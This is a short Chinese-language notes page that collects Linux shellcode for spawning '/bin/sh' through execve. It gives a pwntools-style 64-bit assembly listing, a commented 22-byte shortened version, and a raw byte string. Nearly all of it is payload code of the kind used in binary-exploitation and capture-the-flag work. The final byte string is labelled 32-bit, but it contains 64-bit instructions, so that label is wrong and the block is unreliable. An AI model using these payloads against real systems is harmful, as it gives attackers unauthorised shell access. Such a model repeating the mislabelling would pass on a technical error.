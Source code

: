 64位shellcode

```
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```

64位精简版

```
######################################################################
## 64位linux下，默认前6个参数都存入寄存器，所以这里没的说也使用寄存器 
## 寄存器存储参数顺序，参数从左到右：rdi, rsi, rdx, rcx, r8, r9

	rdi = /bin/sh        ## 第一个参数
	rsi = 0              ## 第二个参数 
	rdx = 0              ## 第三个参数 
	rax = 0x3b           ## 64位下的系统调用号
	syscall              ## 64位使用 syscall
#####################################################################
## 精炼版本
##
## 这里说明一下，很多博客都会用"/bin//sh"或者官方的"/bin///sh"
## 作为第一个参数，即添加/线来填充空白字符。这里我将"/bin/sh"
## 放在最前面，就不存在汇编代码中间存在空字符截断的问题；另外
## "/bin/sh"是7个字符，64位中需要一行指令，末尾未填充的空字符
## 刚好作为字符串结尾标志符，也就不需要额外压一个空字符入栈。

    mov rbx, 0x68732f6e69622f  # 0x68732f6e69622f --> hs/nib/  little endian
    push rbx
    push rsp 
    pop rdi
    xor esi, esi               # rsi低32位
    xor edx, edx               # rdx低32位
    push 0x3b
    pop rax
    syscall
    ## 汇编之后字节长度为22字节
```

32位的shellcode

```
\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05
```
